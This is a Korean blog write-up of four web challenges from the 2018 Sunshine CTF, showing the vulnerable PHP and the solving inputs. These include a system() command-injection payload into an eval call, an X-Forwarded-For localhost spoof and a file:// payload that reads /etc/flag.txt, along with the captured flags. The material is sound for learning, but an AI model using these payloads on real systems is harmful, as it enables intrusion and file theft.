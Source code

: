 ```yaml
---
layout: post
title: "2018 Sunshine CTF Write up"
excerpt: "웹,,, 뭘까,,,"
categories: [Web,ctf]
comments: true
---
```


SunshineCTF write up입니다.

### 1.Evaluation

![img](https://t1.daumcdn.net/cfile/tistory/993AE74F5ACB7F010B)

이 문제는 50점으로, 매우 간단한 문제였습니다. 문제에 들어가면 아래와 같은 코드가 있습니다.

```php
<?php 
 
include "flag.php";
error_reporting(0);
show_source(__FILE__);
$a = @$_REQUEST['hello'];
eval("var_dump($a);");
 
?>
```


처음에는 hello파라미터에 ?hello=system("cat /flag.php");를 전송했는데, string(2) "?>" 라고 출력되고 flag가 나오지 않았습니다.
그래서 고민을 하다가 두번째 시도에서 ?hello=system(%22cat%20flag.php|base64%22)라고 전송을 하였더니 base64로 암호화된 PD9waHAgCiRmbGFnID0iTm9wZSI7CgovLyBzdW57YzBtbTRuRF8xTmozY3RpMG5faTVfRTRzWX07가 출력되어서 복호화를 하니 문제가 해결되었습니다.

```php
<?php 
$flag ="Nope";
 
// sun{c0mm4nD_1Nj3cti0n_i5_E4sY};
```



Solve!



### 2.Marceau

![img](https://t1.daumcdn.net/cfile/tistory/997BAE405ACB7F0101)

이 문제는 힌트가 나오기 전까진 고민을 많이했습니다. 힌트에서 mime이라는 단어를 보고 해결하였습니다.그저 프록시나 Burp같은 프로그램을 이용하여 HTTPheader를 변경해주면 되는 문제였습니다.

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 라는 부분을 

Accept: text/php,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 라고 수정해주면 문제가 해결됩니다.

```php
<?php
// sun{45k_4nd_y3_5h411_r3c31v3} (nice work!)
 
// */* won't work here- you'll have to be more assertive.
if(strpos($_SERVER['HTTP_ACCEPT'], "text/php") === false)
  echo "<marquee><h3>You specifically want my PHP source. Why did you accept anything else?</h3></marquee>";
else
  show_source(__FILE__);
?>
```



sun{45k_4nd_y3_5h411_r3c31v3} 

Solve!



### 3.Home sweet home

![img](https://t1.daumcdn.net/cfile/tistory/99CFBD4B5ACB7F0113)

이 문제는 상당히 쉬웠습니다. 처음에는 어렵게 생각하여서 삽질을 오래하였는데, 실제로 해결하고 나니 그렇게 쉬운 문제 인것같습니다.이 문제는 "과연 실제로 웹사이트에서 개인클라이언트의 IP에 제한을 둔거겠어?"하는 생각으로 삽질을 하다가 해결하지 못하고있었습니다. 그래서 실제로 제한을 두었다고 생각하고 시도하니 해결되었습니다. 그저 헤더에 X-Forwarded-For: 127.0.0.1를 수정하니 문제가 해결되었습니다.



**Host**: web1.sunshinectf.org:50005



**X-Forwarded-For**: 127.0.0.1



sun{Th3rEs_n0_pl4cE_l1kE_127.0.0.1}



Solve!





### 4.Search Box

![img](https://t1.daumcdn.net/cfile/tistory/99B51E4E5ACB7F0111)

이 문제는 상당히 어려웠던 문제였습니다. 이 문제에 관한 내용을 매우 많이 구글링과 삽질을 해봤습니다. 그 결과 본 문제가 curl를 이용한다는것을 알게되었습니다. 그래서 구글링을 하다가 php버그에서 본 문제와 아주 관련이 깊은 문서를 발견하였습니다. https://bugs.php.net/bug.php?id=68089 바로 이 자료인데, 이 자료를 확인하시면 "코드 내에서 사용자 입력이 Strpos를 사용하여 스키마에 대해 검사되는 경우, NULL바이트를 사용하여 이를 전복시킬 수 있고, 그런 경우에 로컬파일이 노출이 가능합니다." 라고 적혀있습니다. 그래서 이 링크의 자료를 이용하여 문제에서 제공해주는 google의 url뒤에 /etc/flag.txt를 추가하였습니다.

http://searchbox.web1.sunshinectf.org/submit=Submit&site=file://www.google.com/etc/flag.txt#

이라는 페이로드를 전송하면 문제가 해결됩니다.



오류지적이나 잘못된 사항은 댓글로 남겨주시길 바랍니다!!!
